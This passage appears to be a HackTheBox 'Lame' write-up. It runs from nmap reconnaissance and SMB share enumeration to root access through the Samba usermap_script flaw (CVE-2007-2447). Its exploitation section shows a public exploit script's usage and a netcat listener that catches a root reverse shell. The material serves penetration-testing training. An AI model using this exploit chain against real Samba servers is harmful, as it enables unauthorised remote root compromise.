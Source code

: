 ```
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```

Digging deeper into the Samba SMB shares via nmap's scripting engine, we glean the following:
```
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))

```

As anonymous logins are permitted, we investigate the shares, especially the `tmp/` directory, though ultimately nothing of value is located. 

## Exploitation

### Known vulnerability - CVE-2007-2447
While none of the contents of the SMB shares give us a path onto the box, searching ExploitDB for the service version (`Samba 3.0.20`) returns several results, though none are directly useful. Instead, further research of Samba 3.0.20 yields [CVE-2007-2447](https://github.com/amriunix/CVE-2007-2447). This script [exploits a weakness in Samba 3.0.0 - 3.0.25rc3](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/) that allows for unathenticated RCE via the use of usernames that contain shell meta characters.

```
$ python2 usermap_script.py
[*] CVE-2007-2447 - Samba usermap script
[-] usage: python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```

The script is very easy to use and immediately provides us with `root` access to the box.

```
$ nc -lvnp 8008
listening on [any] 8008 ...
connect to [<kali-ip>] from (UNKNOWN) [<target-ip>] 41884
whoami
root
```
